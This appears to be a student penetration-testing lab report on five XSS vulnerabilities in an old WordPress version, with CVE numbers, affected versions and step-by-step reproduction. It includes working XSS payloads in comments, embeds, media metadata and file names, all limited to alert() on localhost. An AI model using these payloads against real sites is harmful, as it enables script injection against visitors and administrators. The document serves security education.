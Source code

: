# Project 7 - WordPress Pentesting

Time spent: Approx 7 hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report



## **Exploit 1: “Upload Same Origin Method Execution”**
-	[x] Summary: Attacking the system via a user clicking on a malicious comment that alerts the user. This click was led the user to involuntarily installing a plug-in on their system.
    -	Vulnerability type: XSS
    -	Tested in version: 4.5.1
    -	Fixed in version: 4.2.8
- [x] GIF Walkthrough:	
     <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_1.gif" alt="attack_1" title="attack_1" />
- [x] Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(“exploit 1: Same Origin Method Execution”) will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566



## **Exploit 2: “Unauthenticated Stored Cross Site-Scripting (XSS)”**
-	[x] Summary: Attacking the system when a vulnerable user comes in contact on a malicious webpage that will then alert the user. 
    -	Vulnerability Type: Stored XSS
    -	Tested in version: 4.2
    -	Fixed in version: 4.2.1
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_2.gif" alt="attack_2" title="attack_2" />
-	[x] Steps to recreate: 
1.	Go to any post
2.	Paste the following on a comment
<a title='x onmouseover=alert(unescape(/Exploit2:%successful/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA…’></a>
3.	Post the comment 
4.	Once the text is visible to the user, the alert will pop up
-	[x] Affected source code:
    http://localhost/wp-admin/comment.php?action=editcomment&c=8 
-	CVE:   2015-3440




## **Exploit 3: “Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds**
-	[x] Summary: Attacking the system via a user clicking on a malicious link that will alert the user. Clicking this embedded “YouTube” link will send an alert to the user. 
    -	Vulnerability types: XSS
    -	Tested in version: 4.0-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_3.gif" alt="attack_3" title="attack_3" />
-	[x] Steps to recreate: 
1.	Create new post 
2.	Inside the body of the new post insert this code

[embed src='https://youtube.com/embed/1234\x3csvg onload=alert("vulnerable!")\x3e'][/embed]

3.	Save changes to the post and see the imbedded link, click on view post 
4.	An alert window will pop up once redirected with the message “vulnerable”

-	[x] Affected source code:
     http://localhost/wp-admin/post.php?post=28&action=edit 
-	CVE:   2017-6817




## **Exploit 4: “Authenticated Cross-Site Scripting via Media File Metadata”**
-	[x] Summary: The attack is executed  by uploading a file with malicous script encoded within the description of the media. When the media is uploaded, the user will be alerted. 
    -	Vulnerability type: Stored XSS
    -	Tested in version: 3.6-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_4.gif" alt="attack_4" title="attack_4" />
-	[x] Steps to recreate: 
1.	Upload a media file to WordPress containing an exploit in the form of metadata 
2.	If the image uploaded does not contain Metadata already, add it to the description of the media file on the admin console add to the description:

      "filename <script>alert("Exploit 4 Successful");</script>"

3.	 When viewing the attachment page, an alert to the user will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/upload.php?item=31 
-	CVE:   2017-6814




## **Exploit 5: “Large File Upload Error XSS”**
-	[x] Summary: By uploading a file that exceeds the max allowed file size that also has malicious Javascript source code such as "exploit<"img src=x onerror=alert(1")>.png", without the inner quotes, the payload is executed by the server when the file is rejected from being uploaded as it gets displayed in the error message that appears to notify the user that the file is too large.
    -	Vulnerability type: XSS
    -	Tested in version: 3.3-4.7.4
    -	Fixed in version: 4.2.15
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_5.gif" alt="attack_5" title="attack_5" />
-	[x] Steps to recreate: 
1.	Upload a media file to WordPress containing an exploit by using the maximum size allowed. 
2.	Find an image to upload that is above 2MB, and in the name of the file add following code without the internal quotes.

      <img "src=x onerror=alert(1)">.png

3.	 When attempted to upload the large file, an alert will be sent to the user.
-	[x] Affected source code:
      	http://localhost/wp-admin/meda-new.php
-	CVE:   2017-9061


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
